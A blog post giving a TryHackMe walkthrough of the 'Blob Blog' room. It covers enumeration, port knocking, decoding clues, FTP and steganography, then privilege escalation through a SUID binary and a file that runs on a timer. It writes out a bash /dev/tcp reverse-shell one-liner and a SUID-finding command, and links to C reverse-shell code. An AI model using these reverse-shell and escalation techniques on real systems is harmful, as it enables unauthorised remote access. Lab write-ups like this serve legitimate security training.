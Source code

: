 ```yaml
---
layout: post
title: Tryhackme - The Blob Blog
date: 2020-12-25 19:00:00 +0000
category: [Tryhackme, Medium]
tags: [thm,linux,medium,reversing,reverse-shell]
---
```


---
<p>The Blob Blog is a medium level Tryhackme room. This rooms requires a little out-of-box thinking and some reversing skills. The final objective is to get the user and root flag.</p>
<br>
![cover_image](/assets/img/tryhackme/theblobblog/1.png)

**Author** | bobloblaw
**Description** | Successfully hack into bobloblaw's computer.

Deploy the VM and let's go.

## <ins>Enumeration</ins>
---
Let's start with a nmap scan.
<br>
![nmap_scan](/assets/img/tryhackme/theblobblog/nmap_scan1.png)
<br>
From the first nmap scan, there are only two ports open: ```22/ssh``` and ```80/http```. I checked the ```http``` service first and found the apache2 page.
<br>
![apache_homepage](/assets/img/tryhackme/theblobblog/2.png)
<br>

In the source page  I found two comments, one is a base64 encoded string and the second one seemed to be some sort of message.

I decoded the first comment in the following way:  ```base64``` using ```cyberchef``` > ```brainf@@k``` using ```dcode```. After decoding I got this message.
<br>
![dcode_first_comment](/assets/img/tryhackme/theblobblog/5.png)
<br>


## <ins>Port knocking</ins>
---
I spent some time figuring out the hint in the message and finally came to a conclusion that it is ```port knocking```.

In case you don't know what ```port knocking``` is, here is the explanation:

**Port knocking:** Port knocking is a stealth method to externally open ports that, by default, the firewall keeps closed. It works by requiring connection attempts to a series of predefined closed ports. With a simple port knocking method, when the correct sequence of port "knocks" (connection attempts) is received, the firewall opens certain port(s) to allow a connection.

source: [https://wiki.archlinux.org/index.php/Port_knocking](https://wiki.archlinux.org/index.php/Port_knocking)

And from the decoded message the combination is ```1,3,5```. I used nmap to make a connection with the specified ports
<br>
<pre>nmap ip-addr -p 1,3,5</pre>
<br>

Do a nmap scan again on all ports and see if there are more ports open. If not, repeat the nmap scan again (Since I didn't get it in the first try).
<br>
![nmap_scan_2](/assets/img/tryhackme/theblobblog/nmap_scan2.png)


## <ins>FTP and HTTP</ins>
---
From the nmap scan I found that ```Anonymous``` login is not enabled in the ```ftp service```. The only password that came to my mind was the string in the second comment. I decoded the ```base58``` encoded string using ```cyberchef```.
<br>
![ftp_passwd](/assets/img/tryhackme/theblobblog/6.png)
<br>
I logged into the ftp server with the username ```bob``` and found an image file. Download it using the ```get file-name``` command.
<br>
![ftp_service](/assets/img/tryhackme/theblobblog/7.png)
<br>
I tried using ```steghide``` to extract the contents of the image file but it required a password to do so. Argghhh...need to find another password.

So, I checked the ```http``` service running in the port ```445``` and found this comments in the source page.
<br>
![image_passwd](/assets/img/tryhackme/theblobblog/8.png)
<br>
Now, use ```steghide``` to extract the contents of the image file.
<br>
![steghide_extract](/assets/img/tryhackme/theblobblog/9.png)
<br>
I checked the extracted text file and found two lines: first one didn't make any sense since I thought it was ```rot``` cipher as it was not and the second one is a directory name in the webpage. After going to the directory I found the key to decipher the first one.
<br>
![bob_dir](/assets/img/tryhackme/theblobblog/10.png)
<br>
The first line that we found on the text file can be decoded with ```vigenere cipher```.
<br>
![vigenere_decode](/assets/img/tryhackme/theblobblog/11.png)
<br>
I tried to log in to ssh using the above credentials but my effort was in vain. Then, I checked the final port ```8080``` . I used ```gobuster``` to brute force the hidden directories since there was no hint in the souce page.
<br>
![gobuster_8080](/assets/img/tryhackme/theblobblog/12.png)
<br>

## <ins>Reverse Shell</ins>
---
I logged in with the credentials that we just found. I checked every link that was given in the page but found nothing interesting. 
<br>
![login_page](/assets/img/tryhackme/theblobblog/13.png)
<br>
I tried some common strings and command in the input box and saw it being reflected in the review link. So, I grabbed the ```bash reverse shell``` and used it in the input box. At first, I thought that the reverse shell would pop-up after clicking the submit button but I was wrong. After submitting the reverse shell payload link on the review link to get the reverse shell. Remember to open a ```netcat``` listener.
<br>
<pre>bash -i >& /dev/tcp/your-vpn-ip/4444 0>&1</pre>
<br>
![reverse_shell](/assets/img/tryhackme/theblobblog/15.png)
<br>
At last!!! We got the shell.


## <ins>User flag</ins>
---
I used ```find``` command to list files with permissions.
<br>
<pre>find / -perm -4000 2>/dev/null</pre>
<br>
I found this particular file out of place. So, I tried executing it with arbitary inputs but had no luck with it.
<br>
![find_output](/assets/img/tryhackme/theblobblog/16.png)
<br>
I transferred the file to my local machine and tried using ```Ghidra``` to reverse engineer it.
<br>
![ghidra_prog](/assets/img/tryhackme/theblobblog/17.png)
<br>
From the main function I understood that it requires ```6 arguments``` and it checks for the condition ```7 - whatever input parameter``` given and loops over the input parameters. So, I tried using all six patameters with the value of 6.
<br>
![blog_elf](/assets/img/tryhackme/theblobblog/20.png)
<br>
After some trial and error, I arrived at ```6 5 4 3 2 1```. Use ```python pty``` to spawn a shell.
<br>
![blog_crack](/assets/img/tryhackme/theblobblog/21.png)
<br>
![user_flag](/assets/img/tryhackme/theblobblog/22.png)
<br>
Voila!! We got the user flag. Without further ado, let's move to getting root.


## <ins>Root flag</ins>
---
I checked for hints in the image files that was with the user flag but found nothing useful. So, I used ```sudo -l``` and found two binaries that can be run as root. 
<br>
<pre>(root) NOPASSWD: /bin/echo, /usr/bin/yes</pre>
<br>

After searching through ```gtfobins``` for commands I found nothing.
Hmmm....back to square one.

Like every 30 seconds or a minute this message stating that "You haven't rooted me yet? Jezz" would be displayed. I thought it would be running as a ```cronjob``` but there was no binary mentioned in the ```/etc/crontab``` file that displayed this message. So, I searched through some directories and finally found file displaying the message in the ```/Documents``` directory.
<br>
![boring_file](/assets/img/tryhackme/theblobblog/23.png)
<br>
![content_boring_file](/assets/img/tryhackme/theblobblog/24.png)
We can use this to get the reverse shell. First, to be able to edit the text file we need the use ```stty```.
<br>
<pre>
ctrl+z
stty raw -echo;fg
reset
xterm-256color
export TERM=xterm-256color
</pre>
<br>

I grabbed the ```c reverse shell``` which can be found [here](https://gist.github.com/0xabe-io/916cf3af33d1c0592a90) and edited the ```remote addr``` and ```remote port```. Remember to open a netcat listener.

Wait for a few seconds for the reverse shell.

The root flag will be waiting for you in ```/root/root.txt``` file.


That's it folks. Happy hacking!!!
